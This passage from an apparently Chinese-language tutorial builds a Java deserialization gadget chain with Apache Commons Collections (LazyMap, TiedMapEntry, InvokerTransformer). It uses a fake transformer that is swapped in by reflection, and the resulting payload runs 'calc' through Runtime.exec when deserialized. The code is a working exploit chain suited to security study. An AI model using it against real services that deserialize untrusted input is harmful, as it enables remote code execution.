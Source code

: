 ```java
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
    }
}
```

发现运行也会弹出计算器干扰，所以先设置一个faketransformer，最后再通过反射修改回来：

```java
import com.sun.net.httpserver.Filter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, null}),
                new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
        };
        ChainedTransformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap,"Troy3e");
        HashMap hashMap = new HashMap();
        hashMap.put(tme,"Troy3e");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain,transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
